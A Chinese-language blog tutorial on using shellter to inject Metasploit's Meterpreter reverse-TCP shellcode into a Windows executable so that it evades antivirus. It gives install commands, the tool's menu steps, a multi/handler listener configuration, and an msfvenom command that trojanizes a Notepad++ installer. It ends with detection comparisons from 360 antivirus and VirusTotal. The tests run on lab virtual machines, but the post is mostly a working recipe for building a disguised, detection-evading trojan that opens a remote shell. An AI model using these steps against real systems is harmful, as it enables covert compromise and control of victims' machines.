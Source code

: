 ```yaml
---
title: 免杀捆绑工具 shellter 的安装及使用
date: 2022-4-16 18:10:24
tags: [Trojan horse,Linux,Kali,Metasploit,shellter]
categories: 
 - [CyberSecurity,木马]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682443290/Typera/2023/04/d9bcdac19a99f14fe88a3ed9e829d637.png
---
```


:::default
**shellter** 是一个**捆绑**工具，采用动态 **shellcode** 注入 的方式，将 **shellcode** 注入到其它程序中，达到**免杀**的效果，躲避杀软的查杀。
:::

## shellter 安装
1. 添加 **i386 32位** 架构支持、更新 **apt**、安装 **wine** 依赖：
	- `dpkg --add-architecture i386 && apt update && apt -y install wine32`
2. 安装 **shellter**：
	- `apt install shellter`
	![image-20230426011840045](https://res.cloudinary.com/sycamore/image/upload/v1682443125/Typera/2023/04/0c4297a033272d1212d9cb86e4daf005.png)
## shellter 使用
> 使用 shellter 捆绑 Meterpreter_Reverse_TCP

**捆绑步骤：**
1. 命令行输入 `shellter` 打开工具
2. 输入 `A` 或者 `a`，选择 **自动模式**；
3. `PE Target:` 后输入要进行 **捆绑** 的 **文件路径**
![image-20230426011919683](https://res.cloudinary.com/sycamore/image/upload/v1682443164/Typera/2023/04/272fa29e9da9d004a3cf25b87079f7de.png)
<br>
4. 输入`Y`，进入 **隐形模式**
![image-20230426011923428](https://res.cloudinary.com/sycamore/image/upload/v1682443168/Typera/2023/04/0ac54c6f74fda57f2a51ac0b8bde409f.png)
<br>
5. 输入`L`，使用 **payload** 攻击模块列表（即上面的 **1~7** ）
6. **payload** 编号选择 `1` ，使用 Meterpreter_Reverse_TCP 攻击
![image-20230426011927372](https://res.cloudinary.com/sycamore/image/upload/v1682443172/Typera/2023/04/073c31195d0c78a68e8b3c2fecbc8531.png)
<br>
7. 分别输入监听端的 **IP**、**端口号**
![image-20230426011931101](https://res.cloudinary.com/sycamore/image/upload/v1682443175/Typera/2023/04/396417290b20f351cc3c1d96669a3c4e.png)
<br>
8. 按 `[Enter]` 退出 **shellter** ：
![image-20230426011934700](https://res.cloudinary.com/sycamore/image/upload/v1682443179/Typera/2023/04/0169aba2f4b7dfa0ba83b3304994339f.png)

<br>

**[ 关于生成的文件 ]**
> **捆绑完毕**的文件 会代替 **原文件** ，即出现在 原文件目录 下，**名字相同**
> 而**原文件**会 **备份** 在目录 `/root/Shellter_Backups/` ：
> ![image-20230426011938517](https://res.cloudinary.com/sycamore/image/upload/v1682443183/Typera/2023/04/9b58fed5ce217d4b84967579f2522d55.png)
## 利用 & 免杀效果
### 利用
1. 上传到 **Win7_x64** 虚拟机，
2. **Kali_Linux** 虚拟机打开 **msf** （命令 `msfconsole`），监听**反弹 shell**：
	- `use exploit/multi/handler`
	- `set payload windows/meterpreter/reverse_tcp`
	- `set LHOST 192.168.158.139`
	- `set LPORT 4444`
	- `run`

**反弹 shell** 成功！
![image-20230426011944783](https://res.cloudinary.com/sycamore/image/upload/v1682443189/Typera/2023/04/4eff497abdd31d7be53e51e0d88f75f7.png)

### 免杀效果
我的 **Win7_x64 虚拟机** 安装了 **360 全家桶**，

但是 **静态检测** 貌似并没有查出 **木马文件** ~

运行木马程序，并成功获得 **meterpreter** 的 **shell** 之后，**360** 竟然也没有第一时间报毒。。。 什么情况 (⊙_⊙)？

大概一分钟之后，才提示有木马：
![image-20230426011949574](https://res.cloudinary.com/sycamore/image/upload/v1682443194/Typera/2023/04/69719cbb27c9df97660f0c6405be89c7.png)
（实际上这个时间足够黑客 **迁移进程** 并 **布置后门** 了)

当然，如果你的电脑以前中过这个毒，**360** 会第一时间反应过来
（但这要是**还没反应**，**360** 就该进回收站了）

然后看看 **virustotal** 的检测情况（**31 / 70**）：[检测报告 传送门1](https://www.virustotal.com/gui/file/e4e97bef85f3970d42e81d6f75815050d7ff2370790888fe9d78948bc83b30a7)
![image-20230426011954090](https://res.cloudinary.com/sycamore/image/upload/v1682443198/Typera/2023/04/6a65ae126f5f5f5c0658d6165d837a04.png)

***对比 ：***
使用 同程序 同**payload**，用 **msf** 自带的捆绑手段生成的木马：
（命令：`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.158.139 LPORT=4444 -x npp.8.1.4.Installer.exe -f exe > mp_npp.exe`）

**virustotal** 的检测情况（**40 /  70**）：[检测报告 传送门2](https://www.virustotal.com/gui/file/c3a7c2280e4aa9aa0693729049f7f8e0ff05e253c1047ef282748c3509687207)
![image-20230426011958597](https://res.cloudinary.com/sycamore/image/upload/v1682443202/Typera/2023/04/c0631de31f6d8f365c052ec14a014b37.png)

> 相比较而言，可以说 **shellter** 的捆绑**免杀**效果比 **msf** 好很多了。

